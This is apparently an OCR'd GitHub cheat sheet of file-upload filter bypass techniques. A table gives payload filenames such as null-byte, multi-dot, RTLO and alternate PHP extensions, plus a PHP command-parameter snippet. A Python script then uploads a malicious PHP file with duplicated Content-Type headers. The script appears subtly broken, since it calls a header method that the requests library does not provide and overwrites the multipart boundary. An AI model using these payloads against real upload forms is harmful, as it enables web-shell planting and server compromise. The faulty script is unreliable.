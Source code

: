 
### **FILE BYPASSING TECHNIQUES**

Explore sophisticated methods to navigate through strict upload filters and security mechanisms:

| **TECHNIQUE** | **DESCRIPTION** |
| --- | --- |
| Null byte (\\x00) injection | The null byte (\\x00) is a control character used to signify the end of a string. Attacker can bypass file extension checks by appending `%00` to a filename (e.g., `shell.jpeg%00.php`), tricking the server into accepting disallowed extensions. |
| Multi-dot extension bypass | Attacker can bypass file extension restrictions by using multiple dots in a filename (e.g., `evil.php....jpg`), causing the server to misinterpret the file's actual extension. |
| Case Sensitivity Exploitation | Attacker can exploit case sensitivity by changing the extension's case (e.g., `shell.php` becomes `shell.pHP`), potentially bypassing security filters that only check for lowercase extensions. |
| Special Character Embedding | Attacker can embed special characters in filenames (e.g., `file.php#?.jpg`) to confuse file handling mechanisms and bypass security checks. |
| Right to left override (rtlo) | Attacker can use the RTLO character to reverse the order of characters in a filename (e.g., `filenamegpj.exe`), disguising the true file type. |
| Content-type Duplication | Attacker can duplicate `Content-Type` headers in HTTP requests to bypass content-type restrictions and trick servers into processing malicious files. |
| Unicode and url Encoding | Attacker can use Unicode and URL encoding to obfuscate filenames (e.g., `file%20name.php`), making it harder for security mechanisms to detect malicious files. |
| Advanced mime Manipulation | Attacker can set the `Content-Type` header to `application/octet-stream` to disguise the file type and bypass content-type based security checks. |
| Hybrid file techniques | Attacker can create hybrid files containing both valid content and executable code (e.g., `evil.jpg<?php echo $_GET['cmd']; ?>`), which can be interpreted differently by various applications. |
| Deceptive path insertion | Attacker can insert deceptive paths in filenames (e.g., `file.php/.jpg`) to mislead file handling mechanisms and bypass security checks. |
| Mime type spoofing | Attacker can upload a malicious PHP file disguised as an image by setting the `Content-Type` to `image/jpeg`. |
| Content-disposition manipulation | Attacker can manipulate the `Content-Disposition` header to suggest a misleading filename (e.g., `Content-Disposition: attachment; filename="shell.php.jpg"`). |
| Obfuscated Extensions | Attacker can use obfuscated extensions (e.g., `.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .phar, .inc`) to bypass security checks. |

### **AUTOMATING CONTENT-TYPE DUPLICATION**

```PYTHON
import requests
from requests import Request, Session

url = 'http://[DOMAIN-NAME]/upload'
file_path = 'path/to/malicious.php'
file_name = 'malicious.php'

# Prepare the malicious file payload
files = {'file': (file_name, open(file_path, 'rb'), 'image/jpeg')}

# Create a request and prepare to send
req = Request('POST', url, files=files)
prepared = req.prepare()

# Duplicate Content-Type headers
prepared.headers['Content-Type'] = 'image/jpeg'
prepared.headers.add_header('Content-Type', 'application/x-php')

# Use Session to send the prepared request
with Session() as s:
    response = s.send(prepared)

print(response.status_code, response.text)

```
